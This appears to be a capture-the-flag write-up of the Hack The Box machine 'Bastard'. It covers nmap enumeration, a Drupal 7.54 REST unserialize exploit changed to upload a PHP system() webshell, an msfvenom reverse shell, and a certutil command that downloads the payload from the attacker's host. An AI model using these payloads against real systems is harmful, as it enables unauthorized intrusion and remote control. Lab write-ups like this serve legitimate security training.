 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Mon Jul 18 21:08:28 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.9
Nmap scan report for 10.10.10.9
Host is up (0.079s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   78.77 ms 10.10.14.1
2   78.79 ms 10.10.10.9

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 18 21:11:24 2022 -- 1 IP address (1 host up) scanned in 177.01 seconds
``` 
</br>
** Initial Shell Vulnerability Exploited: **
</br>
Since port 80 was open, I got inside the main page and I could see that it was powered by Drupal: </br>
![main_page](images/bastard/main_page.png) </br>
So I ran a drupal scan using [droopescan](https://github.com/SamJoan/droopescan) tool with the command: ```droopescan scan drupal -u 10.10.10.9``` </br>
![drupal_version](images/bastard/drupal_version.png) </br>
I could see that the drupal version is 7.54 and I found an exploit for that version on [GitHub](https://github.com/PolarisLab/Drupal-Exploit/blob/master/Drupal-Exploit.php). </br>
Before running the exploit, I had to install the PHP-curl package and do some modifications in the exploit
code. </br>
I installed php-curl with this command: ```sudo apt-get install php-curl``` and modified the exploit code: </br>

```bash
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'test.php',
    'data' => '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; >
];
```
**$url** - To the machine URL (10.10.10.9) </br>
**$endpoint_path** - was at /rest_endpoint before, but it returned 404 Not found, I tried /rest instead and it worked (returned 200). </br>
**'filename'** - will be the name of the file uploaded to the webserver. </br>
**'data'** - I changed it to a one liner [webshell](https://gist.github.com/sente/4dbb2b7bdda2647ba80b) </br>
I ran the exploit: </br>
![shell_upload](images/bastard/shell_upload.png) </br>
And the webshell seemed to work fine:
![webshell_proof](images/bastard/webshell_proof.png) </br>
# Uploading a Reverse Shell:
I used msfvenom to generate a reverse shell on my Kali: ```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.31 LPORT=4242 -f exe >
reverse.exe``` </br>
I then downloaded that on the target machine with certutil, using the webshell: </br>
'''bash
10.10.10.9/test.php?cmd=certutil -urlcache -split -f "http://10.10.14.31/reverse.exe" reverse.exe
'''
</br>
Ran the file while listening to port 4242 on my Kali: </br>
![initial_shell_poc](images/bastard/initial_shell_poc.png) </br>
**Vulnerability Explanation:** One of the feature of the module is that one can control the input/output format by changing the
Content-Type/Accept headers.
one of the input formats is: application/vnd.php.serialized, which is the type given to PHP-serialized data,
that means that this module is vulnerable to trivial unserialize() vulnerability.
The unserialize function can result in code being loaded and executed. </br>
**Initial Shell Screenshot:** </br>
![initial_shell_poc2](images/bastard/initial_shell_poc2.png) </br>
# Privilege Escalation:
Just trying to write some text here </br>






